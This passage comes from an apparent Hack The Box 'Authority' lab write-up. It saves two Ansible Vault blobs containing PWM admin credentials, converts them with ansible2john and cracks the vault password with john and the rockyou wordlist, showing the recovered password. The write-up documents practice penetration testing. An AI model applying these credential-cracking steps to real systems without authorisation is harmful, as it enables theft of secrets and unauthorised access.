 It seems likely that `pwm_admin_login` is the username for the applcation, and `pwm_admin_password` is the password. Lets stick these encrypted passwords in `enc.yml` and `enc2.yml` respectively.

```shell
┌──(kali㉿kali)-[~/Desktop/htb/authority]
└─$ cat enc.yml 
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438
   
┌──(kali㉿kali)-[~/Desktop/htb/authority]
└─$ cat enc2.yml
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531
```

![image-38.png](/assets/img/Authority/image-38.png)

As outlined [here](https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible){:target="_blank"}, using `ansible2john` will convert them into a hash format than john understands. We can then attempt to crack these `AES256` blobs to obtain the encryption key with `rockyou.txt`.

```shell
┌──(kali㉿kali)-[~/Desktop] 
└─$ ansible2john enc.yml > vault.in

┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt vault.in        
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 AVX 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (enc.yml)     
1g 0:00:00:19 DONE (2023-07-16 10:57) 0.05099g/s 2029p/s 2029c/s 2029C/s 001983..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

